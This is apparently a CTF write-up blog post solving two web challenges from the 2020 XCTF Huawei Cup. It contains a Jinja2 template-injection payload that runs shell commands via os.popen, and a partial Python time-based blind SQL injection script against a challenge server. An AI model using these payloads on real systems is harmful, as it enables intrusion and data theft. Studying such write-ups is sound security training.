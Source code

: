 ```yaml
---
layout:     post
title:      2020-XCTF-华为杯-Web-WP
subtitle:   还是 tcl
date:       2020-12-28
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/5f4656b404220849b6476876.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```

## mine1_1 



令`referer`头等于 `args`

`((request|attr(request.referrer)).a) => request.args.a`



```
{ {((()|attr(((request|attr(request.referrer)).a))|attr(((request|attr(request.referrer)).b))|attr(((request|attr(request.referrer)).c))())|attr(((request|attr(request.referrer)).d))(149))|attr(((request|attr(request.referrer)).e))|attr(((request|attr(request.referrer)).f))|attr(((request|attr(request.referrer)).d))(((request|attr(request.referrer)).g))|attr(((request|attr(request.referrer)).d))(((request|attr(request.referrer)).h))(((request|attr(request.referrer)).m))} }&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&g=__builtins__&h=eval&m=__import__("os").popen("cat * |grep flag").read()
```





## pyer



sqlite 时间盲注

```python
import requests
import time

url = r'http://124.71.134.84:30101/login'
result = ''

flag = ''

for x in range(0,200) :
	max = 127
	min = 32
	mid = (max + min) //2

	while min <max :
		payload = "' or (select case  when (substr((SELECT sql FROM sqlite_master WHERE type='table' ),{0},1)>char({1}) ) then randomblob(5000000) else 1 end) or  '".format(x,mid)
		data = {
			'username':payload,
			'password':"1",
			'submit':"1"
			}
		
		print payload
```